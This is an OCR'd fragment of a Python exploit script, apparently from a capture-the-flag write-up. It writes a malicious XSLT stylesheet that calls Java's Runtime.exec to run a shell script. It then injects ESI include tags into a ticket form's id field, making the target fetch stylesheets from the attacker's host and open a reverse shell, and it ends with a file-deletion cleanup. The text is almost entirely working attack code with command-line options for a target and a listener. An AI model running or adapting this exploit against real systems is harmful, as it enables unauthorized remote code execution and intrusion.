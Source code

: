 ```py
    payload1 = '<?xml version="1.0" ?>\n'
    payload1 += '<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">\n'
    payload1 += '<xsl:output method="xml" omit-xml-declaration="yes"/>\n'
    payload1 += '<xsl:template match="/"\n'
    payload1 += 'xmlns:xsl="http://www.w3.org/1999/XSL/Transform"\n'
    payload1 += 'xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">\n'
    payload1 += '<root>\n'
    payload1 += '<xsl:variable name="cmd"><![CDATA[bash /tmp/shell.sh]]></xsl:variable>\n'
    payload1 += '<xsl:variable name="rtObj" select="rt:getRuntime()"/>\n'
    payload1 += '<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>\n'
    payload1 += 'Process: <xsl:value-of select="$process"/>\n'
    payload1 += 'Command: <xsl:value-of select="$cmd"/>\n'
    payload1 += '</root>\n'
    payload1 += '</xsl:template>\n'
    payload1 += '</xsl:stylesheet>\n'
    f = open("%s" %nametwo, "a")
    f.write(payload1)
    f.close()
    print("[+] Files Created !!! [+]")

# Let's trigger the reverse shell
def triggerPay(rhost,lhost,nameone,nametwo):
    print("[+] Enjoy your reverse shell !! [+]")
    url = "http://%s:9001/ticket.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    # Send the malicious download
    ticket1 = random.randint(1000,2000)
    data = {"title": "0x4rt3mis", "msg": "Describe your query", "id": "TKT-%s;<esi:include src=\"http://localhost/\" stylesheet=\"http://%s/%s\"> </esi:include>" %(ticket1,lhost,nameone)}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    os.system("sleep 5")
    # Trigger the reverse shell
    ticket2 = random.randint(1000,2000)
    data = {"title": "0x4rt3mis", "msg": "Describe your query", "id": "TKT-%s;<esi:include src=\"http://localhost/\" stylesheet=\"http://%s/%s\"> </esi:include>" %(ticket2,lhost,nametwo)}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    
# Cleaning up
def cleanUp(nameone,nametwo,nameshell):
    os.system("rm %s" %nameone)
    os.system("rm %s" %nametwo)
    os.system("rm %s" %nameshell)    
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-p', '--port', help='Local port to receive the shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.port
    
    global nameone
    global nametwo
    global nameshell
    nametwo = random.randint(3000,4000)
    nameone = random.randint(3000,4000)
    nameshell = random.randint(3000,4000)

    '''Here we call the functions'''
```